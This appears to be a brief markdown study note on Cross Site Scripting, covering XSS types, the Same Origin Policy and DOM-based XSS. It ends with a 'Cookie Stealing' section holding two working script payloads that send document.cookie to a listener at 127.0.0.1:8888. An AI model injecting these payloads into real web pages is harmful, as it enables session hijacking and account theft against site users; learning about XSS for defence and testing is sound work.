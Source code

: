 # Cross Site Scripting (XSS)

> Reflected XSS
> 
> Stored XSS
> 
> DOM based XSS
> 
> Blind XSS
> 
> Mutation based XSS
> 

What is Same Origin Policy (SOP) ?
A Policy that stops one website from reading or writing data to another

The policy checks:
> protocol
>
> host
>
> port


### DOM Based XSS

In DOM XSS, the page itself (the HTTP response that is) does not change.

<img src="/path/to/user_input" onload="alert(1)">

[payload] -injected-> [ js code ] -executes-> [ creates object including payload] -renders-

## Cookie Stealing
<script>document.write('<img src="http://127.0.0.1:8888/?'+document.cookie+'">');</script>
<script>window.location='http://127.0.0.1:8888/?cookie='+document.cookie</script>




